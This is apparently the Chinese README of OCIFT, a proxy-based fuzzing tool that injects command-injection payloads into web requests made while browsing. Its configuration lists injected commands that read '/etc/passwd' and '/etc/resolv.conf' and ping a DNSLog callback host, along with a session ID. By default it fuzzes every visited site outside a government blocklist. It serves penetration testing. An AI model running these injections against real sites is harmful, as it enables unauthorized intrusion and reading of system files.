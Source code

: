# OCIFT
一个半自动化命令注入漏洞Fuzz工具(One Semi-automation command injection vulnerability Fuzz tool)

## 1. OCIFT是什么

一个半自动化命令注入漏洞Fuzz工具(One Semi-automation command injection vulnerability Fuzz tool)简写为:OCIFT

## 2. OCIFT有什么用

这是一种半自动化的黑盒测试工具,它可以帮助渗透测试人员或代码审计人员在愉快的上网的同时，深度挖掘目标应用系统存在的命令注入漏洞。 

## 3. OCIFT有什么特点

*   Payload基于Commix生成方式修改而来(需要持续完善).
*   基于浏览器代理的半自动化Fuzz.
*   多线程Fuzz速度快,不影响正常浏览器访问使用.
*   支持设置白名单限制Fuzz范围.
*   支持设置黑名单避免带来不必要的麻烦.
*   支持DNSLog辅助验证

## 4. OCIFT实现思路

基于Tornado的实现一个代理服务器，解析GET／POST请求提取Fuzz点，带入payload进行Fuzz测试。

*   文件结构说明

`➜  cifuzz git:(master) ✗ tree
.
|____run.py       主程序入口
|____dnslog.py    DNSLog SDK
|____fuzz.conf    配置文件
|____fuzz.py      Fuzz线程
|____make_payload.py  Payload生成器
|____readme.md  说明文档`

## 5. 配置文件说明

*   配置各个参数,以逗号分隔

`[initconfig]`

*   黑名单HOST－为了避免带来不必要的麻烦

`black_hosts =.gov,localhost,127.0.0.1,google,gstatic,cnzz.com,doubleclick,police,mil.cn,gov.cn,gov.com`

*   静态文件黑名单-这些不做Fuzz

`url_ext_black =.ico,.flv,.css,.jpg,.png,.jpeg,.gif,.pdf,.ss3,.txt,.rar,.zip,.avi,.mp4,.swf,.wmi,.exe,.mpeg`

*   白名单HOST-为了限制Fuzz的范围, 默认为空-表示对除黑名单范围外的所有地址进行Fuzz.

`white_site =qunar`

*   请求超时-限制每次Fuzz请求超时时间

`timeout =10`

*   我的DnsLog地址

`my_cloudeye =ano1qu2j.xfkxfk.com`

*   判断是够注入命令执行成功的关键字

`checkkeys =110586256,/bin/bash,nameserver,IPv4,Windows IP`

*   用于测试命令注入的基本命令

`base_command =cat /etc/resolv.conf,echo 110586256,cat /etc/passwd,ipconfig,ping CommandInj.{my_cloudeye},echo 110586256<nul`

*   Fuzz线程数

`fuzz_count =20`

*   fuzz的payload类型, 默认False-表示使用自定义的规则

`commix_payload_type = False`

*   DnsLog登录会话ID,我用的xfkxfk牛的dnslog.xfkxfk.com

`dnslog_sessionid =q6wva2e3skg79vkdegra2bygft0d1`

*   Your Domain

`custom_domain =a2fta2j`

*   记录成功结果的Log文件

`Logfile =rce_success_results.txt`

## 6.如何使用

*   1.安装模块

`pip install tornado
pip install requests`

*   2.根据自己需要完成文件fuzz.conf的配置
*   3.启用主程序

`python run.py 8089`
如下图:

![启动](http://www.coffeehb.cn/zb_users/upload/2017/04/20170409003441149166928169694.jpg)

*   4.设置浏览器代理
然后会自动开始Fuzz

![开始Fuzz](http://www.coffeehb.cn/zb_users/upload/2017/04/20170409003324149166920421927.jpg)

## 7.总结

*   基本实现了想要的半自动化Fuzz功能
*   payload还需要不断优化

